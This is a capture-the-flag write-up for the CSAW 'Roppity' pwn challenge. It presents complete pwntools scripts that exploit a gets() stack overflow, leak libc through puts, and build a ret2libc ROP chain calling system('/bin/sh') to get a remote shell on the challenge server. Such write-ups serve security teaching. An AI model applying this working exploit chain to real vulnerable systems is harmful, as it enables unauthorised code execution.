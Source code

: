 # Roppity (Pwn 50 pts)

### Challenge 
> We given a binary file `rop` and libc file `libc-2` .

The title of challenge suggests it is a ROP(Return-Oriented Programming) challenge

Analysing File:

 ```
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d177aa372f308c07c8daaddec53df7c5aafd630, not stripped
```
Checksec:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Decompile with Hopper.

```C
int main() {
    init();
    puts("Hello");
    gets(&var_20);
    return 0x0;
}
```

The main function prints the hello then takes our input using gets and exits

So Basic Idea of Exploitation:

Using puts_got as argument to puts_plt we can leak the puts address and then get back to main  so we can exploit the overflow again.

Leaking Libc_base:

```python
from pwn import *

buf = 40*'A'

elf = ELF('./rop')

p = remote('pwn.chal.csaw.io',5016)

libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

rop = ROP('rop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

payload1 = buf #Overwrite RIP

payload1 += p64(pop_rdi) #Sets the address of gadget so next address saves into the RDI registry

payload1 += p64(puts_got) #puts_got to save in RDI (to argument for the following function)

payload1 += p64(puts_plt) #calling puts_plt ,so puts will read the content inside puts_got and will print it out.

payload1 += p64(main) #to get back to main function

p.clean()
p.sendline(payload1)

recieved = p.recvline().strip()

puts_leak = u64(recieved.ljust(8, "\x00"))


libc.address = puts_leak - libc.symbols['puts']

log.info("Leaked libc address",hex(libc.address))
```
We got the Libc_base, the thing is to get shell .

Finding `system` function address and `/bin/sh` string address

```python
binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]
```

We have everything we need to get shell 

The Final Script to get Shell

```python
from pwn import *

buf = 40*'A'

elf = ELF('./rop')

p = remote('pwn.chal.csaw.io',5016)

libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

rop = ROP('rop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.clean()
p.sendline(paylaod1)

recieved = p.recvline().strip()

puts_leak = u64(recieved.ljust(8, "\x00"))


libc.address = puts_leak - libc.symbols['puts']

log.info("Leaked libc address",hex(libc.address))

binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]

exit = libc.sym["exit"]

payload2 = buf  #buffer to overwrite RIP

payload2 += p64(ret) # to align Stack

payload2 += p64(pop_rdi) # to put the next address into RDI 

payload2 += p64(binsh)  #bin/sh address

payload2 += p64(system) # call to system; system('bin/sh')

payload2 += p64(exit) # fake functioin address

p.clean()
p.sendline(payload2)
p.interactive()
```



